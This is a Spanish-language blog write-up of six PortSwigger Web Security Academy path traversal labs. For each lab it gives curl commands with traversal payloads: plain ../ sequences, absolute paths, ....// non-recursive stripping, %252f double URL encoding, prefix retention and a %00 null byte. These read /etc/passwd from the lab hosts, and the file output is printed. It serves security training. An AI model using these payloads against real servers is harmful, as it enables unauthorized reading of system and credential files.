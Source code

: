 ```yaml
---
layout: default
title: "Directory Traversal - PortSwigger"
permalink: /directory-traversal-ps/
---
```


# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice

  * [1. Lab: File path traversal, simple case](#1-lab-file-path-traversal-simple-case)

  * [2. Lab: File path traversal, traversal sequences blocked with absolute path bypass](#2-lab-file-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass)

  * [3. Lab: File path traversal, traversal sequences stripped non-recursively](#3-lab-file-path-traversal--traversal-sequences-stripped-non-recursively)

  * [4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](#4-lab-file-path-traversal-traversal-sequences-stripped-with-superfluous-url-decode)

  * [5. Lab: File path traversal, validation of start of path](#5-lab-file-path-traversal-validation-of-start-of-path)

  * [6. Lab: File path traversal, validation of file extension with null byte bypass](#6-lab-file-path-traversal-validation-of-file-extension-with-null-byte-bypass)

  * [CONCLUSION](#conclusion)

    

## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html
<img src="/image?filename=15.jpg">
```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:

![](img1.png)

Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.

![](img2.png)

Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
....
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D

![](img3.png)

## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass

Revisando el codigo fuente encontramos lo siguiente:

```html
<img src="/image?filename=64.jpg">
```

Por como resolvimos el ejemplo anterior vemos que podemos obtener  el fichero en la siguiente url:

```bash
https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=64.jpg
```

Lo que haremos será hacer la consulta por **curl** del fichero **../../../etc/passwd**, pero obtenemos el siguiente error:

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer existe alguna seguridad con respecto al Directory traversal, y lo que hace puede que sea filtrar por la cadena **../** , lo que podemos hacer es usar una ruta absoluta como la siguiente.

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
.....
```

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

Vamos mas al grano, y vamos a probar de una vez el enlace de las imagenes con el fichero **/etc/passwd**.

```bash
https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=71.jpg
```

```bash
└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=/etc/passwd
"No such file"

└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=../../etc/passwd
"No such file"
```

Podemos sospechar lo mismo que en el nivel anterior, la consulta elimina la cadena **../** por lo cual, lo que haremos será burlar esto de una manera algo ingeniosa:

```bash
#El sitio eliminará la cadena ../ pero, al hacer eso juntará las cadenas .. y / que crearán otro ../
...// -> ..(../)/ -> ../
```

Entonces ahora pogramos el payload con el comando **curl**.

```bash
└──╼ $curl "https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=....//....//....//etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
....
```

## 4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

```bash
https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=38.jpg
```

Verificamos si el metodo a usar del laboratorio anterior es suficiente.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=....//....//....//etc/passwd'
"No such file"
```

Como vemos no es posible, entonces intentaremos codificando el caracter **/** y que en urlenconde sería igual a **%2F**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%2F..%2F..%2Fetc%2Fpasswd'
"No such file"
```

Como podemos ver, tampoco funciona, así que buscaremos otras codificaciones posibles para **/**. Y por ahí nos topamos que se puede encodear con la siguiente cadena **%252f**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
....
```

## 5. Lab: File path traversal, validation of start of path

```bash
https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=/var/www/images/41.jpg
```

Verificamos si el metodo a usar del laboratorio anterior es suficiente.

```bash
└──╼ $curl 'https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'
"Missing parameter 'filename'"
```

Al parecer como vemos en la url de la imagen, **/var/www/images/41.jpg**, sigue un parametro de ruta inicial **/var/www/images/**, lo que haremos será dejarlo así pero acontinuacion agregar retrocesos de directorios **../** hasta lograr llegar a la raiz y agregarle el **/etc/passwd**.

```bash
└──╼ $curl 'https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
....
```

## 6. Lab: File path traversal, validation of file extension with null byte bypass

```bash
https://acf81f211eab79d0809c602c005a00d3.web-security-academy.net/image?filename=10.jpg
```

Intentaremos con unos de los payloads anteriores, y vemos que es lo que ocurre.

```bash
└──╼ $curl 'https://acf81f211eab79d0809c602c005a00d3.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer no nos permite acceder, como dice el titulo del laboratorio, esta web valida la extension del fichero que se le pasa, entonces intentaremos evadir esta restriccion con un caracter nulo, pero en urlencode, el cual sería: **%00**.

```bash
└──╼ $curl 'https://acf81f211eab79d0809c602c005a00d3.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
....
```

## CONCLUSION

Y con esto acabamos la seccion de Directory Traversal, usa seccion muy sencilla y con pocos laboratorios pero que nos va ciertos trucos muy utiles para evadir algunas restricciones que nos dé algun sitio.

